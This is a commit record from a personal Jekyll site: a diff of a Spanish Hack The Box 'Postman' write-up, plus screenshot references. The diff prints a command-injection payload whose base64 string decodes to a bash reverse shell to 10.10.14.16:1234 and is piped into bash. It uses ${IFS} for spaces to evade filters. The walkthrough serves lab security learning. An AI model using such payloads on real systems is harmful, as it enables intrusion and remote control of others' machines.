

Before and after one commit to fredisanmar/fredisanmar.github.io, a Jekyll site: the page built from _posts/2021-01-14-Postman-HTB.md, in a window 1280 px wide and 900 px high, scrolled down 4705 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
writeup Postman

````diff
--- a/_posts/2021-01-14-Postman-HTB.md
+++ b/_posts/2021-01-14-Postman-HTB.md
@@ -102,7 +102,10 @@ Ahora generaremos el payload que vamos a mandar al servidor.
 * Method: POST
 * payload: u=acl%2Fapt&u=$(command)
 
-En nuestro caso la string del comando `echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi8xMjM0IDA%2bJjEn|base64${IFS}-d|bash`.
+En nuestro caso la string del comando
+```bash
+echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi8xMjM0IDA%2bJjEn|base64${IFS}-d|bash
+```
 ${IFS} se usa para sustituir los espacios y %2b es para sustituir los simbolos + y que no se transformen en espacios.
 
 Con el listener levantado reciviremos la conexion.
````
